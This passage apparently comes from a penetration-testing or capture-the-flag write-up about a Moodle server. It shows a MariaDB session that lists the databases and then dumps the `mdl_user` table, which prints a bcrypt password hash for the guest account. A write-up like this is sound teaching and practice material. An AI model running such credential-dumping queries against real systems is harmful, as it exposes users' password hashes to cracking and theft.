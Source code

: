 List of databases:
```
MariaDB [(none)]> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| moodle             |
| mysql              |
| performance_schema |
| phpmyadmin         |
+--------------------+
```

The `mdl_user` table contains passwords:
```
MariaDB [moodle]> show tables;
show tables;
+----------------------------------+
| Tables_in_moodle                 |
+----------------------------------+
...
| mdl_user                         |
...
```

```
MariaDB [moodle]> select * from mdl_user;
select * from mdl_user;
+------+--------+-----------+--------------+---------+-----------+------------+-------------+--------------------------------------------------------------+----------+------------+----------+----------------+-----------+-----+-------+-------+-----+-----+--------+--------+-------------+------------+---------+------+---------+------+--------------+-------+----------+-------------+------------+------------+--------------+---------------+--------+---------+-----+---------------------------------------------------------------------------+-------------------+------------+------------+-------------+---------------+-------------+-------------+--------------+--------------+----------+------------------+-------------------+------------+---------------+
| id   | auth   | confirmed | policyagreed | deleted | suspended | mnethostid | username    | password                                                     | idnumber | firstname  | lastname | email          | emailstop | icq | skype | yahoo | aim | msn | phone1 | phone2 | institution | department | address | city | country | lang | calendartype | theme | timezone | firstaccess | lastaccess | lastlogin  | currentlogin | lastip        | secret | picture | url | description                                                               | descriptionformat | mailformat | maildigest | maildisplay | autosubscribe | trackforums | timecreated | timemodified | trustbitmask | imagealt | lastnamephonetic | firstnamephonetic | middlename | alternatename |
+------+--------+-----------+--------------+---------+-----------+------------+-------------+--------------------------------------------------------------+----------+------------+----------+----------------+-----------+-----+-------+-------+-----+-----+--------+--------+-------------+------------+---------+------+---------+------+--------------+-------+----------+-------------+------------+------------+--------------+---------------+--------+---------+-----+---------------------------------------------------------------------------+-------------------+------------+------------+-------------+---------------+-------------+-------------+--------------+--------------+----------+------------------+-------------------+------------+---------------+
|    1 | manual |         1 |            0 |       0 |         0 |          1 | guest       | $2y$10$ywuE5gDlAlaCu9R0w7pKW.UCB0jUH6ZVKcitP3gMtUNrAebiGMOdO |          | Guest user |          | root@localhost |         0 |     |       |       |     |     |        |        |             |            |         |      |         | en   | gregorian    |       | 99       |           0 |          0 |          0 |            0 |               |        |       0 |     | This user is a special user that allows read-only access to some courses. |                 1 |          1 |          0 |           2 |             1 |           0 |           0 |   1530058999 |            0 | NULL     | NULL             | NULL              | NULL       | NULL          |
```
